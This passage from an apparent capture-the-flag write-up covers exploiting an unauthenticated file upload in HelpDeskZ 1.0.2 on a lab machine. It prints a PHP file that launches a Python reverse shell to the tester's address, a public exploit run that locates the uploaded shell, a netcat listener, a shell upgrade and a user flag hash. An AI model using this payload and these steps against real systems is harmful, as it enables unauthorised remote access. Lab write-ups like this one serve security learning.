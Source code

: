          ```PHP
         <?php

           echo system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.99\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");

         ?>
         ```
      3. Enter CAPTCHA
      4. Click "Submit"
      5. Run the python exploit (__*40300.py*__):
         ```console
         python ./40300.py http://10.10.10.121/support/uploads/tickets/ shell.php
         # Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
         # found!
         # http://10.10.10.121/support/uploads/tickets/b2c187c5977426db2acf2b5195e31687.php
         ```
   4. Set-up the reverse shell:
      - Local terminal:
        ```console
        nc -lvp 4444    
        ```
      - Another local terminal: 
        ```console
        curl http://10.10.10.121/support/uploads/tickets/b2c187c5977426db2acf2b5195e31687.php
        ```
      - While inside the reverse shell:
        ```console
        python -c 'import pty; pty.spawn("/bin/bash")'

        id
        # uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)

        cd ~
        cat user.txt
        # bb8a7b36bdce0c61ccebaa173ef946af
        ```

---

## PART 4 : Privilege Escalation (help -> root)

